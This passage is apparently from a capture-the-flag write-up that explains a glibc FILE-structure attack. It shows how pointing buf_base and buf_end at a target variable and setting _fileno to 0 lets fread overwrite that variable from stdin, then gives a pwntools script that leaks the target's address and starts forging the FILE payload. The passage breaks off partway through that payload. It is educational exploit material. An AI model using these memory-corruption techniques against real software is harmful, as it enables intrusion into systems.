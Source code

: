 
For us the first important part is `buf_base` `buf_end`, these correspond to the start and end of the area we want to write to. 

The second important part is `int _fileno`, if we set this to 0 then `fread` will read from stdin (standard input). 

Therefore all we have to do is set everything to 0 except `buf_base` and `buf_end` which will be the address of `aura`, and then once we are prompted for input, we can write whatever we want to `aura`.

Scripting time,

```python
from pwn import *

context.terminal = ["cmd.exe", "/c", "wt.exe", "new-tab", "cmd.exe", "/c", "wsl.exe", "-e",]

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './filename'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
# context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

p = start()

# Get aura address
p.recvuntil("my aura: ")
aura_addr = p.recvline()[:-1].decode()
aura_addr = aura_addr[2:]
aura_addr = bytes.fromhex(aura_addr)
aura_addr = int(aura_addr.hex(), 16)

print(f" aura at {hex(aura_addr)}")

p.recvuntil(b'ur aura? ')
  
  
# Complete FILE structure
payload  = p64(0x8000)                 # _flags                # _IO_USER_BUF flag 
payload += p64(0)                      # _IO_read_ptr          # set all reads to null to force fread to read from stdin
payload += p64(0)                      # _IO_read_end         
payload += p64(0)                      # _IO_read_base
```
